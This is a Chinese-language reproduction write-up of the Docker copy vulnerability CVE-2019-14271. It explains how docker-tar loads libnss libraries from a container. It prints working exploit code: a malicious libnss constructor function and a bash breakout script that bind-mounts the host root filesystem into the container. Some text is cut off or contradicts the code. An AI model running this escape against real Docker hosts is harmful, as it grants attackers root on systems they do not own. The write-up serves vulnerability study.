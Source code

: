 （CVE-2019-14271）Docker copy漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Docker 19.03.1

三、复现过程
------------

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix
cp命令非常相似。要从容器中复制/var/logs，语法是docker cp
container\_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![](resource/(CVE-2019-14271)Dockercopy漏洞/media/rId25.png)

图 1. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker
daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change
Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![](resource/(CVE-2019-14271)Dockercopy漏洞/media/rId26.png)

图 2. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host
root。因此，攻击者控制的容器就可以尝试和诱使docker
cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go
v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss\_\*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss\_\*.so库的镜像

容器中含有被攻击者替换的libnss\_\*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss\_files.so文件，下载了库函数的源码，并在代码中加入了一个函数------run\_at\_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run\_at\_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run\_at\_link函数就会执行。下面是run\_at\_link的代码：

    #include ...

    #define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
    #define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

    bool is_priviliged();

    __attribute__ ((constructor)) void run_at_link(void)
    {
         char * argv_break[2];
         if (!is_priviliged())
               return;

         rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
         fprintf(log_fp, "switched back to the original libnss_file.so");

         if (!fork())
         {

               // Child runs breakout
               argv_break[0] = strdup("/breakout");
               argv_break[1] = NULL;
               execve("/breakout", argv_break, NULL);
         }
         else
               wait(NULL); // Wait for child

         return;
    }
    bool is_priviliged()
    {
         FILE * proc_file = fopen("/proc/self/exe", "r");
         if (proc_file != NULL)
         {
               fclose(proc_file);
               return false; // can open so /proc exists, not privileged
         }
         return true; // we're running in the context of docker-tar
    }

查/proc目录完成的。如果run\_at\_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run\_at\_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run\_at\_link执行。

为简化该漏洞利用，run\_at\_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run\_at\_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![](resource/(CVE-2019-14271)Dockercopy漏洞/media/rId29.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss\_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host\_fs的容器中，并将消息写入host的/evil目录。/breakout脚本代码如下：

    umount /host_fs && rm -rf /host_fs
    mkdir /host_fs


    mount -t proc none /proc     # mount the host's procfs over /proc
    cd /proc/1/root              # chdir to host's root
    mount --bind . /host_fs      # mount host root at /host_fs
    echo "Hello from within the container!" > /host_fs/evil

四、参考链接
------------

> https://xz.aliyun.com/t/6806

